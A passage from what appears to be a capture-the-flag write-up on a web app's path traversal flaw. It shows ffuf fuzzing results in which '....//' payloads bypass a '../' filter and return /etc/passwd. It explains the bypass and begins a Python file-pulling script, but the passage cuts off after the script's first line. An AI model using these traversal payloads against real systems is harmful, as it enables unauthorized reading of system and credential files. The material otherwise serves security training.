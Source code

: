     ....//....//....//....//....//....//....//....//....//....//....//....//etc/passwd [Status: 200, Size: 796, Words: 3, Lines: 2, Duration: 99ms]
    ....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//etc/passwd [Status: 200, Size: 796, Words: 3, Lines: 2, Duration: 101ms]
    ....//....//....//....//....//....//....//....//....//....//....//etc/passwd [Status: 200, Size: 796, Words: 3, Lines: 2, Duration: 101ms]
    ....//....//....//....//....//....//....//....//....//....//etc/passwd [Status: 200, Size: 796, Words: 3, Lines: 2, Duration: 101ms]
    ....//....//....//....//....//....//....//....//....//....//....//....//....//....//etc/passwd [Status: 200, Size: 796, Words: 3, Lines: 2, Duration: 103ms]
    ....//....//....//....//....//....//....//etc/passwd [Status: 200, Size: 796, Words: 3, Lines: 2, Duration: 102ms]
    ....//....//....//....//....//....//etc/passwd [Status: 200, Size: 796, Words: 3, Lines: 2, Duration: 102ms]
    ....//....//....//....//....//....//....//....//etc/passwd [Status: 200, Size: 796, Words: 3, Lines: 2, Duration: 104ms]
    ....//....//....//....//etc/passwd [Status: 200, Size: 796, Words: 3, Lines: 2, Duration: 104ms]
    ....//....//....//....//....//etc/passwd [Status: 200, Size: 796, Words: 3, Lines: 2, Duration: 104ms]
    :: Progress: [922/922] :: Job [1/1] :: 470 req/sec :: Duration: [0:00:02] :: Errors: 0 ::



Again, I'm using `-mc all` to allow all codes, and `-ac` to let it smart
decide what to filter. It seems like the site must be removing `../` in
such a way that `....//` becomes `../`. I can verify this manually:

![](/img/image-20230509153726493.png)

The file coming back starts with `PK`, which are the [magic
bytes](https://en.wikipedia.org/wiki/List_of_file_signatures) for a zip
archive. I'll try that in a browser, and the resulting zip has the
`passwd` file:

![](/img/image-20230509154124652.png)

#### Script

To enumerate the host, I'll write a quick Python script to allow me to
easily pull files and unzip them. I'll walk through building the script
in [this video](https://www.youtube.com/watch?v=2a4OJeSZ_N0):


# ایک خرابی پیش آ گئی۔ {#ایک-خرابی-پیش-آ-گئی .message}

[اس ویڈیو کو www.youtube.com پر دیکھنے کی کوشش
کریں](https://www.youtube.com/watch?v=2a4OJeSZ_N0){target="_blank"} یا
اگر آپ کے براؤزر میں JavaScript غیر فعال ہے تو اسے فعال کریں۔

The final code looks like:



    #!/usr/bin/env python3
